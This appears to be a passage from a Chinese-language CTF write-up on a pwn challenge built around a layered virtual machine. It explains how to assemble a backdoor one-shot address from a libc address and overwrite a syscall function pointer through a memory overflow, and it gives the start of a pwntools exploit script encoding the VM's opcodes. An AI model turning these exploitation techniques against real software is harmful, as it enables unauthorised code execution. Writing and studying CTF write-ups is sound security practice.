 思路比较简单，注意到以下三点：
- 它 libstorage.so 和 libc 之类的偏移都是一定的，然后调试 crash1（第一张图）的 case 的时候就注意到了它会把一个 libc 固定偏移的地址的一半塞到一个寄存器里面，并且我们有set_reg,mul_and_set，add_and_set 这些函数,所以就可以直接自力更生  
- 它进行 CALL2 CALL1 的时候都是访问堆上的一堆函数指针，然后这些函数指针都是从0x051CE0 地址上 caml_builtin_cprim 直接拷贝过去的，而且我们 set_memory 可以溢出的地址比这些函数指针地址低   
所以我们采用如下方法：
- 先把一个 libc 地址塞到一个寄存器里面，把它 libstorage 里面的后门函数 oneshot 通过寄存器加减造出来
- 然后我们通过 set_memory 溢出，调用那个 set_mem_indir 覆盖 syscall 函数指针为 one_shot

其他注意点：
- 每次输出 opcode 的时候都是比如说原本寄存器中值减一除以二     
- set_register,set_memory 的时候设置的值会减一除以二，set_memory 的时候，下标如果按照 QWORD ptr 算的话也是会除以2（轩哥锐评：嗷嗷嗷 那个操作一下 数据就没一半的那个是吧，挺有毒的hh）
- 把数凑好就差不多打出来了hhh,其实打完看思路挺清楚的 ~

## 总结
是至少2层的虚拟机题呀，感觉还是挺考虑综合能力的，比如说跑 fuzz，找到 CamlDumpObj 这个工具这样的 ~ （Elsa tql!!）  
对于 rosa 来说 不用打 IOFile 减少了脑壳疼的程度（非实指）   
还记得去年打题的时候，轩哥，雅儒学长，elsa 开了六个小时的腾讯会议连麦，当时有幸蹭了一波（甚至记得当时我在深圳的家里做题，穿了一件粉色的有小兔子的睡衣hhh），真的人生体验，看师傅们打题真的惊为天人，感觉自己在这么短的时间内应该是做不出来的ww，感觉大家好厉害ww，现在自己做的时候虽然比想象中简单，但是像是上面的综合能力，感觉自己还有挺大的提升空间    
今年在北京造编译器和嗑盐的间隙摸鱼做题hhh，在下雨的晚上待在宿舍中厅，同时好队友 k4ra5u 在出题 http pwn，感觉好快乐好满足ww    
最后如果有没讲细的地方请通过邮箱联系ww，联系方式在博客主页，谢谢大家阅读 ~

## exp
请忽略注释里面 rosa 的碎碎念（
```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p=process("./app")
# todo figure out what does push_acc0,get_field const0 does, const0 看上去是1的样子
def set_reg(i,val):
    return b"\x00"+p8(i)+p8(val)
def get_reg(i,j):
    return b"\x01"+p8(i)+p8(j)
def add(i,j):
    return b"\x02"+p8(i)+p8(j)

def add_and_set(i,j):
    return b"\x03"+p8(i)+p8(j)

def sub_and_set(i,j):
    return b"\x05"+p8(i)+p8(j)
def get_reg_mem(i,j): # 不知道 j 有啥用
    return b"\x08"+p8(i)

def get_mem(i,j):
    return b"\x09"+p8(i)
def load(i,j):
    return b"\x0a"+p8(i)+p8(j) # 虽然但是感觉好像只和i有关系
def dir_load(i,j):
    return b"\x0b"+p8(i)+p8(j)
def store(i,j):
    return b"\x0c"+p8(i)+p8(j)
def set_mem(i,j):
    return b"\x0d"+p8(i)+p8(j)
def set_mem_indir(i,j):
    return b"\x0e"+p8(i)+p8(j)
def syscall():
    return b"\x0f\x00\x00"
def mov(i,j):
    return b"\x10"+p8(i)+p8(j)
def set_mem4(i,j):
    return b"\x11"+p8(i)+p8(j)
```